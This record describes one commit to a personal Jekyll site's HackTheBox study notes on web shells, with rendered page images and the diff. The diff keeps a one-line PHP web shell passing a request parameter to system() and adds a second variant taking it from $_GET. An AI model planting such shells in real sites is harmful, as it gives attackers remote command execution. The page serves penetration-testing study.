

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/Shells/Web_Shells.md, in a window 1280 px wide. Shown: the top 734 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update Web_Shells.md

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/Shells/Web_Shells.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/Shells/Web_Shells.md
@@ -13,6 +13,8 @@ https://www.1337pwn.com/best-php-web-shells/
 <a name="php"></a>
 ```php
 <?php system($_REQUEST["cmd"]); ?>
+## The $_GET doesn't get picked up by SharePoint in MarkDown.
+<?php system($_GET[cmd]); ?>
 ```
 
 #### JSP
````
